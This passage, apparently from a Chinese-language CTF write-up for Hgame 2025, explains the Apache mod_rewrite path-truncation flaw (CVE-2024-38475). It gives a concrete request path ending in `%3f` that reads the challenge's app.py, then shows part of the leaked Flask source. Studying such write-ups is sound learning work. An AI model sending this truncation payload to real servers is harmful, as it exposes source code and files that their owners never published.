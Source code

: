 从中可以拿到 app.py 的绝对路径，再利用 rewrite 来读⽂件，做题时未能联想到这一点，也不了解 CVE-2024-38475，只是用 `L1nk/` 开头的 `user-agent` 扫描爆破，所以未能找到任何有效信息。

研读一下参考资料：https://blog.orange.tw/posts/2024-08-confusion-attacks-ch/ 可知，Apache 的 mod_rewrite 允许网站管理员透过 RewriteRule 语法轻松的将路径透过指定的规则改写：

```apache
RewriteRule Pattern Substitution [flags]
```

其中目标可以是一个档案系统路径或是一个网址，在改写路径时，mod_rewrite 会强制把结果视为网址处理(splitout_queryargs())，这导致了在 HTTP 请求中可以透过一个问号 `%3F` 去截断 RewriteRule 后面的路径或网址，从而引出了路径截断和误导 RewriteFlag 的设置两种攻击方式，本题涉及的应该是前者。

所以访问 `/admin/usr/local/apache2/app/app.py%3f` 可以截断后面的内容读取到 app.py 的源码

![](/img/Hgame2025复现/JOdwb24EQoAMlExvZLbcSI3dnEh.png)

```python
from flask import Flask, request, render_template, render_template_string, redirect
import os
import templates

app = Flask(__name__)
pwd = os.path.dirname(__file__)
show_msg = templates.show_msg


def readmsg():
        filename = pwd + "/tmp/message.txt"
        if os.path.exists(filename):
                f = open(filename, 'r')
                message = f.read()
                f.close()
                return message
        else:
                return 'No message now.'


@app.route('/index', methods=['GET'])
def index():
        status = request.args.get('status')
        if status is None:
                status = ''
        return render_template("index.html", status=status)

```